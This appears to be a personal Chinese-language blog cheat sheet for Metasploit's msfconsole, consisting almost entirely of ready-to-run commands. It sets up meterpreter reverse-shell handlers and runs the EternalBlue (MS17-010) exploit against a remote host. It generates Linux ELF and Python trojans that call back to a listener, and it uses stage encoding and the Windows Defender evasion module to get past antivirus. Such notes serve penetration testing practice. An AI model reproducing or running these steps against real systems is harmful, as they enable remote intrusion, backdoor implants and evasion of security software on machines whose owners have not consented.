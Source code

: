 ```yaml
---
layout: post
title: "msfconsole"
description: ""
date: 2023-07-11
categories:
  - Metasploit
  - MSF_未分類
author: ""
tags: ['Metasploit']
---
```




# msfconsole

```bash


// -q 不顯示 banner
msfconsole -q 



// 使用 模組 multi handler
use exploit/multi/handler



//查看選項
show options



// 設置 localhost
set lhost 192.168.43.84



// 顯示payloads
show payloads



// 設置payloads
set payload windows/meterpreter/reverse_tcp



//啟動監聽
run



```



/////////////////////////////////////////////////////////////////////////////////////


### msfconsole 自動讀取 meterpreter   reverse (32bits)
```bash
msfconsole -r my_msf_auto_handler.txt
```



創建my_msf_auto_handler.txt
```bash
use exploit/multi/handler
set lhost 192.168.43.84
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.43.84
set lport 4444
run

```



/////////////////////////////////////////////////////////////////////////////////////




### msfconsole 自動讀取 meterpreter  reverse (64bits)

```bash
msfconsole -r my_msf_auto_handler.txt
```



### my_msf_auto_handler.txt

```bash
use exploit/multi/handler
set lhost 192.168.43.84
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.43.84
set lport 4444
run

```


### 漏洞攻擊

有時候不成功可以關閉AV
```
//handler 回到msf
back 


//search


search name:010

use exploit/windows/smb/ms17_010_eternalblue

set rhosts 192.168.43.217

show options

show targets

check

run 





//stage 混郩 也過不了AV

show advanced 


set EnableStageEncoding true


set StageEncoder x64/xor











```


### 快速生成一些handler 和木馬
注意:最好還是使用 use exploit/multi/handler 
linux 的 elf 
```
use payload/linux/x64/meterpreter/reverse_tcp


show options



set lhost 192.168.43.84


//生成木馬
generate -f elf -o /home/kali/Desktop/back



//handler
handler -H 192.168.119.84 -P 4444 -p linux/x64/meterpreter/reverse_tcp


handler -H 192.168.119.84 -P 4444 -p windows/meterpreter/reverse_tcp




```

python 
```
use payload/python/meterpreter/reverse_tcp


show options



set lhost 192.168.43.84

//生成木馬
generate -f raw -o /home/kali/Desktop/hack.py



handler -H 192.168.119.84 -P 4444 -p python/meterpreter/reverse_tcp

```




### auxiliary 輔助模塊
大部分都是掃描

```
//蒐集browser 信息
use  auxiliary/gather/browser_info 

```



### nop模塊
生成nop 待續.......



### Evasion 模塊
```

show evasion

use evasion/windows/windows_defender_exe

//生成
run 

```

